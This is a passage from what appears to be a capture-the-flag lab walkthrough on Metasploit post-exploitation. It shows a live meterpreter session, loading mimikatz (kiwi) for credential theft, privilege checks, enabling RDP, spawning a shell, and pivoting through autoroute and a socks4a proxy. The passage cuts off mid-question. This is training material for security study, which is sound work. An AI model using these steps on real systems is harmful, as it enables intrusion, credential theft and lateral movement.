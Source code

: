   Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.8.20.232:4444 -> 10.10.182.112:49172 (10.10.182.112)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


> sessions -i 1
```

## We're in, now what?

### What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!
>migrate

### What command can we run to find out more information regarding the current user running the process we are in?
>getuid

### How about finding more information out about the system itself?
>sysinfo

### How do you load mimikatz?
>load kiwi

### Find current user priviledges
>getprivs

### What command do we run to transfer files to our victim computer? 
>upload

### How about if we want to run a Metasploit module?
>run

### What command do we run to figure out the networking information and interfaces on our victim?
>ipconfig

Let's run the command `run post/windows/gather/checkvm`. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.
Next, let's try: `run post/multi/recon/local_exploit_suggester`. This will check for various exploits which we can run within our session to elevate our privileges. 
Finally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: `run post/windows/manage/enable_rdp`

### What command can we run in our meterpreter session to spawn a normal system shell? 
>shell

## Makin' Cisco
Let's go ahead and run the command `run autoroute -h`, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.
>run autoroute -s 172.18.1.0 -n 255.255.255.0

Additionally, we can start a socks4a proxy server out of this session. Background our current meterpreter session and run the command `search server/socks4a`. What is the full path to the socks4a auxiliary module?

>auxiliary/server/socks4a

Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks4a server with proxychains?
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
